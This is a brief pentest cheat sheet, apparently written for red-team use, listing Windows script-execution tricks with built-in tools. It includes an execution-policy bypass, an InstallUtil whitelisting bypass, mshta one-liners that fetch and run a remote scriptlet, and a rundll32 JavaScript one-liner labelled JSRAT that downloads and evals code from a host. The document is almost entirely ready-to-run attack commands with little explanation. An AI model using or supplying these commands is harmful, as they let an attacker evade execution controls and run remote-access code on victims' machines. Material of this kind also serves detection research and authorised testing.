 windows script example in penetration
----

#### 1.	powershell ####

	powershell -executionpolicy bypass ./powershell_script.ps1

#### 2. VBS ####

默认可以直接在机器上运行，命令行下可以通过`cscript.exe`执行

	cscript.exe vbs_script.vbs
	vbs_script.vbs

#### 3. csc(.cs c#) ####

首先通过`csc.exe`进行编译c#为`exe`，然后通过`InstallUtil.exe`进行程序执行

	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:PEL.exe InstallUtilBypass.cs

	InstallUtil.exe /logfile= /LogToConsole=false /U PEL.exe

#### 4. Jscript(.js) ####

可以通过`wscript.exe`、`cscript.exe`以及直接运行，主要通过`ActiveXObject()`创建对应的对象`WScript.shell`、`Shell.Application`.

	cscript.exe/wscript.exe jscript.js
	jscript.js

JScript参考链接：http://www.yuanma.net/Manual/JavaScript/

https://evi1cg.me/archives/Run_JSRAT.html

#### 5. Mshta ####

	mshta vbscript:Close(Execute("GetObject(""script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/mshta.sct"").Exec()"))

	mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/mshta.sct").Exec();close();

#### 6. Rundll32 ####

	rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://127.0.0.1:8081/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}%  #JSRAT

	rundll32 AllTheThings.dll,EntryPoint	# https://github.com/redcanaryco/atomic-red-team/tree/master/Windows/Payloads/AllTheThings

